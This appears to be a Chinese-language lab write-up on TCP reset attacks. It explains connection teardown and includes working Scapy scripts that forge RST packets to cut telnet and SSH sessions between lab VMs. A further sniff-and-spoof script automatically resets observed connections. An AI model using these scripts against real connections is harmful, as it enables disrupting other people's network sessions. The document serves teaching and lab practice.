









# TCP复位攻击

TCP复位攻击的目标是破坏两个主机之间已存在的连接。

## 关闭TCP连接

方式一：  
1、A没有更多数据传给B时，发送FIN包给B  
2、B收到后，回复ACK包，A到B的连接就关闭了，但B到A连接依旧保持  
3、如果B也要关闭到A的连接，发送FIN，A回复ACK，就关闭  

方式二：  
只需发送RST包，连接立刻中断，主要用在没有时间或者无法使用FIN协议的紧急情况。  
比如发现SYN泛洪攻击。  

## TCP复位攻击的条件

假冒的方式发送RST包来中断连接，叫TCP复位攻击。  
要成功实现攻击，要正确设置：  
1、源和目的IP地址、端口号  
2、序列号  

!!! Note

    把攻击者和受害者放在同一个网络，可以降低猜测序列号的难度
    
## telnet连接中的TCP复位攻击

1、客户端telnet到服务端  


2、确定需要设置的参数    
找到和虚拟机同网段的网卡是vmnet8  


设置监听的网卡：  


客户端运行简单的ls命令


Wireshark上抓到服务端发给客户端的包：


!!! 安装wireshark

    https://www.wireshark.org/download.html
    
可以看到源端口号23，目标端口号40482，下一个序列号2445021732

3、宿主机发动复位攻击

```python
#!/usr/bin/python
import sys
from scapy.all import *

print("SENDING RESET PACKET.....")
IPLayer = IP(src="192.168.230.150", dst="192.168.230.151")
TCPLayer = TCP(sport=23, dport=40482, flags="R", seq=2445021732)
pkt = IPLayer/TCPLayer
ls(pkt)
send(pkt, verbose=0)
```

4、可以看到客户端telnet被断开


!!! warning

    wireshark中找序列号容易出错，一定要找最后一行服务端发给客户端的包  
    要用sudo权限

## SSH连接中的TCP复位攻击

!!! ssh连接

    SSH的TCP连接是加密的，但是只加密了TCP数据，而不加密TCP头。即这个加密是在网络层之上的传输层进行的。因为
    TCP复位攻击只需要伪造TCP头部，不需要加装任何数据，故TCP复位攻击可以成功。

1、客户端ssh到服务端


2、确定需要设置的参数  


可以看到源端口号22，目标端口号44950，下一个序列号2920417518  

3、宿主机发动复位攻击

```python
#!/usr/bin/python3
import sys
from scapy.all import *

print("SENDING RESET PACKET.....")
IPLayer = IP(src="192.168.230.150", dst="192.168.230.151")
TCPLayer = TCP(sport=22, dport=44950, flags="R", seq=2920417518)
pkt = IPLayer/TCPLayer
ls(pkt)
send(pkt, verbose=0)
```


4、可以看到客户端ssh被断开


!!! warning

    wireshark输入ssh过滤显示  
    发动攻击时一定要用sudo权限！  

## 视频流连接中的TCP复位攻击

!!! 视频流攻击难点

    在于如何找序列号，这个过程不能在telnet终端输入任何内容，否则下一个序列号值会增加，由于没有办法停止
    客户端和服务器之间的数据包，因此序列号增长的很快，无法使用手动方式来攻击。

```python
#!/usr/bin/python3
from scapy.all import *


def spoof_tcp(pkt):
    IPLayer = IP(dst="192.168.230.1", src=pkt[IP].dst)
    TCPLayer = TCP(flags="R", seq=pkt[TCP].ack, dport=pkt[TCP].sport, sport=pkt[TCP].dport)
    spoofpkt = IPLayer/TCPLayer
    send(spoofpkt, verbose=0)

pkt = sniff(filter='tcp and src host 192.168.230.1', prn=spoof_tcp)

```

1、打开youtube.com的某一个视频  
2、执行攻击脚本，没有达到预期效果  

!!! warning

    ubuntu虚拟机提供的firefox浏览器无法播放视频，改成用宿主机播放，执行脚本不起作用


